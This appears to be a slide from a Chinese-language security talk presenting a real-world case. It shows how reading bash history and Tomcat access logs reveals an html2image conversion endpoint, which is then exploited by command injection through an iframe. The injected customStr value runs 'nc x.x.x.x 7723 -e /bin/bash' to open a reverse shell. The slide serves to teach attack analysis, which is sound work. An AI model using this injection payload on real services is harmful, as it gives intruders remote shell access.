

实战分享-Case 3
cd html2image/html2image-tomcat/default/tomcat
cd logs
less localhost_access_log.2018-04-23.txt
curl http://127.0.0.1:8181

读取.bash_history
1

POST /convert/html2?customStr=--quality+100++--corp-w+750+--corp-h+1080 HTTP 1.0

读取access log
2

<iframe src="http://127.0.0.1:8181/convert/html2?customStr=--quality+100%3bnc+x.x.x.x+7723+-e+/bin/bash%3b%23">
进行命令注入
3